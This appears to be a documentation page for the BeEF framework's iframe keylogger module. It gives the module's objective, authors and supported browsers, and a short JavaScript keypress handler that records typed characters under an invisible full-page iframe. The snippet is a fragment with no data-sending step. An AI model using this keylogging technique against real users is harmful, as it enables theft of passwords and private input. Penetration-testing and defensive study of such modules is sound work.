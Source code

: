 ## Summary

* **Objective**: Log keys through a 100% iframe overlay
* **Authors**: antisnatchor
* **Browsers**: all except Opera

* [Code](https://github.com/beefproject/beef/tree/master/modules/misc/iframe_keylogger)

## Internal Working

adds a 100% size invisible iframe and an event listener that fires on keypress.

```js

    // add the pressed key to the keystroke stream array
    function keyPressHandler(evt) {
        evt = evt || window.event;
        if (evt) {
            var keyCode = evt.charCode || evt.keyCode;
            charLogged = String.fromCharCode(keyCode);
            stream.push(charLogged);
        }
    }


```

## Feedback


